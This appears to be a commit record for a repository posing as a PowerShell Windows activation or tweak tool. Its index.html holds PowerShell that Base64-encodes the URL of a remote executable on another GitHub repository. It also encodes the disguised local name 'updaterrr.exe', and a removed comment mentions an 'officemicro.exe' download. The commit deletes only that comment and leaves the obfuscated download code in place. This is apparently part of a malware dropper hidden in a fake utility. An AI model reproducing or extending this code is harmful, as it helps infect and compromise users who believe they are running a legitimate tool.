

Before and after one commit to WindowsTweaksX/PowerShellActivate, a plain HTML site: page index.html in a window 1280 px wide. Shown: the top 773 px of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,5 +1,5 @@
 <html><head>
-<meta charset="utf-8"></head><body><pre># Base64-encoded strings for third download (officemicro.exe)
+<meta charset="utf-8"></head><body><pre>
 $officeDownloadUrlB64 = [Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("https://github.com/freetponline/paintwebsite/raw/refs/heads/main/dolbaeb.exe"))
 $updaterrrExeB64 = [Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("updaterrr.exe"))
 # Common attributes
```
